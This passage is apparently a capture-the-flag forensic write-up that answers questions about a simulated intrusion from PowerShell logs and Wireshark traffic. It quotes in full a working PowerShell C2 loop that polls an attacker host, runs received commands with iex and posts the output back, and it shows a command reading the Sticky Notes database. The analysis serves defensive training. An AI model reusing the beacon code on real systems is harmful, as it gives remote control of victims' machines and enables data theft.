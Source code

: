 
**What HTTP method is used by the C2 for the output of the commands executed by the attacker?**

The following powershell logs show evidence of C2 activity. The Invoke-WebRequests in variables `$v` and `$c` receive instructions from the attacker. The last "Invoke-WebRequest", in variable `$t` is returning results of the attackers commands after they have been received and executed, using **POST**. `$r` is sent in the POST request, which contains the command output, identifiable by its use of `iex` to execute the received commands.

```
"$s='cdn.bpakcaging.xyz:8080';
$i='8cce49b0-b86459bb-27fe2489';
$p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};
while ($true){
$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;
if ($c -ne 'None') {
$r=iex $c -ErrorAction Stop -ErrorVariable e;
$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"
```

The following Wireshark filter will show this traffic:

`(http.host ~ "cdn.bpakcaging.xyz") && (http.request.method == "POST")`

---

**What is the protocol used during the exfiltration activity?**

nslookup is used to perform exfiltration here, which performs **DNS** queries.

---

**What is the password of the exfiltrated file?**

Based on the hint given, this is related to the sqllite file access by sq3.exe, which we found out earlier is "plum.sqlite". I used the below command to find the timestamp of this log entry:

ubuntu@tryhackme:~/Desktop/artefacts$ `cat powershell.json | jq | grep -B12 "plum.sqlite"`

```
{
  "Timestamp": "2023-01-13 17:25:38.759011Z",
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Provider": "Microsoft-Windows-PowerShell",
  "Hostname": "QL-WKSTN-5693",
  "SID": "S-1-5-21-3258834958-2458682484-3394967329-1002",
  "EventID": 4104,
  "RecordID": 724,
  "Level": "Verbose",
  "Descr": "Creating Scriptblock text (<MessageNumber> of <MessageTotal>)",
  "MessageNumber": "1",
  "MessageTotal": "1",
  "ScriptBlockText": ".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd",
```
